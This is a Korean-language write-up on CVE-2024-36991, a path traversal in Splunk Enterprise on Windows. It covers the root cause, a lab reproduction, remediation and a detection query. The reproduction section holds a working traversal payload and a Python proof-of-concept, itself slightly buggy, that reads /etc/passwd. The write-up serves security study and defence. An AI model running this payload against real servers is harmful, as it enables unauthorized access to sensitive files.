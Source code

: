 ```yaml
---
layout: default
title: cve-2024-36991
category: "etc"
nav_order: 4
parent: cve
---
```


# cve-2024-36991
{: .no_toc }

Splunk Enterprise Path Traversal 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Splunk][Splunk]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[PoC][PoC]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
Splunk의 /modules/messaging/ 엔드포인트에서 발생하는 경로 탐색(Path Traversal) 취약점

## 1.2 취약 대상
- Windows 환경에서 동작하는 Splunk Enterprise에서 다음 버전이 영향
- Splunk Enterprise 9.2.0 ~ 9.2.1
- Splunk Enterprise 9.2.2
- Splunk Enterprise 9.1.0 ~ 9.1.4
- Splunk Enterprise 9.1.5
- Splunk Enterprise 9.0.0 ~ 9.0.9
- Splunk Enterprise 9.0.10

## 1.3 공격 원리
- 취약점은 /modules/messaging/ 엔드포인트에 조작된 경로를 포함한 url을 요청
- Splunk Web은 해당 경로를 os.path.join[주1] 함수를 사용하여 결합 
- Winodws 환경에서는 중복된 드라이브 문자가 제거되는 특성을 이용
- 공격자는 이 취약점을 악용하여 민감한 파일에 접근하여 정보를 탈취

![](../../assets/images/cve/cve-2024-36991/1.png)

---

## 1.4 Splunk의 취약한 설정 분석
- CVE-2024-36991의 취약점이 존재하는 환경은 다음과 같은 조건을 만족
- Splunk Web 활성화, Windows 환경에서 동작, modules/messaging 엔드포인트가 open
- 이러한 조건을 갖춘 환경에서는, 공격자가 조작된 URL을 통해 경로 탐색(Path Traversal) 공격 가능 

<br>

- 이 취약점은 Splunk Web이 활성화된 인스턴스에서 발생
- Splunk Web의 설정 파일(web.conf)에서 startwebserver 옵션을 1로 설정하여 취약한 환경 구현

![](../../assets/images/cve/cve-2024-36991/2.png)

<br> 

- Windows환경에서 os.path.join() 함수가 어떻게 작동하는지 확인
- Splunk의 /modules/messaging/ 엔드포인트는 파일을 불러올 때 사용자가 입력한 경로를 합쳐 처리
- 정상적인 경우, os.path.join()은 경로를 연결 (C:\Program Files\Splunk\data\logs\test.log)

![](../../assets/images/cve/cve-2024-36991/3.png)

 <br>

- 비정상적인 경우, 공격자가 새로운 “C:\\” 경로를 추가
- “C:\\”(드라이브 문자가 다시 등장하는 경우) 이후의 값을 기준으로 새로운 경로를 생성
- 결과적으로 기본 경로가 무시되고 공격자가 원하는 파일로 접근(C:\\SKT\\Infra보안\\skt_nsc.excel)

![](../../assets/images/cve/cve-2024-36991/4.png)

---

## 1.5 환경 구성
- Victim: Windows10 (IP: 192.168.253.123)
- Attacker: Windows10 (IP: 192.168.253.77)

<br>

- 취약한 Splunk 서버 환경 구축 (Splunk Enterprise 9.1.2)
- 취약점이 존재하는 Splunk Enterprise 9.1.2 서버 구축

![](../../assets/images/cve/cve-2024-36991/5.png)

---

## 1.6 공격 재현
- Python을 이용한 조작된 GET 요청을 통한 Splunk 서버 공격
- 조작된 경로 생성 (“/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd”)
- 조작된 GET 요청을 서버로 전송하고, 응답에서 /etc/passwd 파일 노출 확인

```py
url = "http://192.168.253.123:8000"
attack_url = "/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd"
def attack_request(url):
    try:
        fullurl = f"{url}{attack_url}" # 조작된 경로를 포함한 URL 생성
        response = requests.get(fullurl, verify=False)
        if response.status_code == 200:
            body = requests.text
            # 응답에서 'admin:' 문자열이 포함되면 출력
            if body is not None and 'admin:' in body:
                print_message('vulnerable', f"Vulnerable: {url}")
                print(body) # 서버에서 응답받은 파일 내용 출력
        else:
            print_message("warning", f"Not Vulnerable: {url}")
            return response.text 
    except requests.RequestException:
        return None
```

<br>

- 실제 /etc/passwd 파일은 아래와 같음

![](../../assets/images/cve/cve-2024-36991/6.png)

<br>

- 공격 실행 결과, 서버에서 /etc/passwd 파일의 실제 내용이 성공적으로 출력

![](../../assets/images/cve/cve-2024-36991/7.png)

<br>

- Burp Suite를 사용하여 실제 페이로드의 응답을 확인한 결과, /etc/passwd 파일의 내용이 포함

![](../../assets/images/cve/cve-2024-36991/8.png)

---

## 1.7 대응 방안
- Splunk Enterprise 버전 9.2.1 이상으로 업데이트
- Splunk Web 비활성화
- Splunk /modules/messaging/ 경로 탐색(Path Traversal) 공격 탐지 쿼리

```spl
`splunkd_web` method=GET uri_path="/*/modules/messaging/*..*" 
| stats min(_time) as firstTime max(_time) as lastTime values(method) as method values(uri_path) as uri_path by host 
| `security_content_ctime(firstTime)` 
| `security_content_ctime(lastTime)` 
| `splunk_unauthenticated_path_traversal_modules_messaging_filter`
```

--- 

[NVD]: https://nvd.nist.gov/vuln/detail/cve-2024-36991
[Splunk]: https://advisory.splunk.com/advisories/SVD-2024-0711
[PoC]: https://github.com/bigb0x/CVE-2024-36991
